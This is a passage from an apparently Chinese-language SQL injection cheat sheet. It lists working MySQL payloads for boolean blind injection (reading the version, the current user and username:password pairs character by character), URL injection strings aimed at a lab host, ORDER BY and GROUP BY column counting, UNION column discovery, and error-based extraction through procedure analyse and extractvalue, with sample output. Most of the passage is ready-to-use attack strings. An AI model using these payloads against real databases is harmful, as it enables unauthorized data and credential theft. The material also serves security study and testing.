 `id=1 and (select case when(select substring(version(),1,1) > 4) then 1 else 1*(select 1 union select 2)end)=1`
 
查当前MySQL用户名长度：  
`id=1 and (select case when(select length(user()) > 10) then 1 else 1*(select 1 union select 2)end)=1`
 
查当前MySQL用户名第一个字符内容：  
`id=1 and (select case when(select ascii(substring(user(),1,1)) = 120) then 1 else 1*(select 1 union select 2)end)=1`
`id=5 and ascii(substring((select concat(username, 0x3a, passwd) from users limit 0,1), 1,1)) > 64` /&#42;可利用二分法判断&#42;/  
 
查数据库长度  
`http://172.16.196.23//noruletest/sql.php?id=1 and+length(database())=12%23`  
 
查询首字母、第二个字母等等  
`http://172.16.196.23//noruletest/sql.php?id=1 and+left(database(),1)='d'%23`  
`http://172.16.196.23//noruletest/sql.php?id=1 and+left(database(),2)='db'%23`  
 
盲注也可以借助正则 regexp，更有效率。  
注意：group by, order by, having 后面都可以接 and、or 。  

---------------------------------------------------------------------------------------------------------------

### 报错注入

#### order by 报错
注意这里的 order by 1，1 表示select 中的第一列，group by 1 同理。但 select 1, 2, 3 类似这些表示的是数字1，2，3。  
order by &#96;id&#96;,2,3 被反引号括起来的只能是具体列名。  
Finding how many columns in SELECT query by ORDER BY  
Finding column number by ORDER BY can speed up the UNION SQL Injection process.  

ORDER BY 1--  
ORDER BY 2--  
ORDER BY N-- so on  
Keep going until get an error. Error means you found the number of selected columns.  

Even though GROUP BY and ORDER BY have different funcionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.  
1' GROUP BY 1,2,3,4,5--+	Unknown column '4' in 'group statement'  
1' ORDER BY 1,2,3,4,5--+	Unknown column '4' in 'order clause'  

先使用order by 找到select 语句的列数（可以使用二分查找缩短查找时间），遍历列位置替换成md5()，如 `union select 1,2,md5("123232"),4`，看返回是否是md5 函数执行之后的字符串，当满足某一列的类型是字符串时就会回显成功。  

#### order by limit 
所以如果注入点前面没有order by 关键字，就可以顺利的使用union 关键字，如果有只能用此种办法，但使用analyse()只能5.0.0<mysql<5.6.6的版本  
```
mysql> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),
concat(0x3a,version())),1);
 
ERROR 1105 (HY000): XPATH syntax error: ':5.5.41-0ubuntu0.14.04.1'
```
